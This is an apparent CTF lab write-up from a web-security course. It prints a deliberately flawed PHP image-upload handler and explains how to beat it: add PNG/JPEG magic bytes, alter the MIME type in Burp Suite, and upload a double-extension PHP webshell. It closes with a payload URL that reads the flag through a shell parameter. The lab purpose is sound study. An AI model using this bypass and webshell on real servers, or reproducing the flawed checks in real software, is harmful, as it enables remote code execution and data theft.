 ```yaml
---
title: Simple Web 0x06(Lab - Image Space 0x03)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > Upload"
---
```


# Simple Web 0x06(Lab - Image Space 0x03)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9012

## Background
[file signature](https://en.wikipedia.org/wiki/List_of_file_signatures)

## Source code
:::spoiler
```php!=
 <?php
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit;
    }
?>
<h1>Image Uploader</h1>
<p>Only supports: jpg, jpeg, png</p>
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="image_file">
    <input type="submit" value="Upload">
</form>
<p>
    <a href="/?source">View Source</a>
</p>
<?php
    if (!isset($_FILES['image_file'])) {
        die('Give me a file!');
    }

    $filename = basename($_FILES['image_file']['name']);
    $extension = strtolower(explode(".", $filename)[1]);

    if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false) {
        die("Invalid file extension: $extension.");
    }

    if (in_array($_FILES['image_file']['type'], ["image/png", "image/jpeg", "image/jpg"]) === false) {
        die("Invalid file type: " . $_SERVER["CONTENT_TYPE"]);
    }

    list($_, $_, $type) = getimagesize($_FILES['image_file']['tmp_name']);

    if ($type !== IMAGETYPE_JPEG && $type !== IMAGETYPE_PNG) {
        die("Invalid image type.");
    }

    $prefix = bin2hex(random_bytes(8));
    move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
    echo "<img src=\"/images/${prefix}_${filename}\">";
?>
```
:::
It has 2 extra constraint must be bypassed. Use `burpsuite` and change valid file signature
## Exploit - bypass `IMAGETYPE` + bypass `$_FILES['image_file']['type']`
1. `HxD` - bypass `IMAGETYPE`
Add valid file signature at the beginning from [wiki page](https://en.wikipedia.org/wiki/List_of_file_signatures)
png: `89 50 4E 47 0D 0A 1A 0A`
jpg: `FF D8 FF DB`
2. `burpsuite` - bypass file type
![](https://i.imgur.com/02Mh97T.png)
3. Then we got shell!!!
payload: `http://h4ck3r.quest:9012/images/353d74c11becb9b1_webshell_valid_filetype.png.php?sh=cat%20../../../../flag`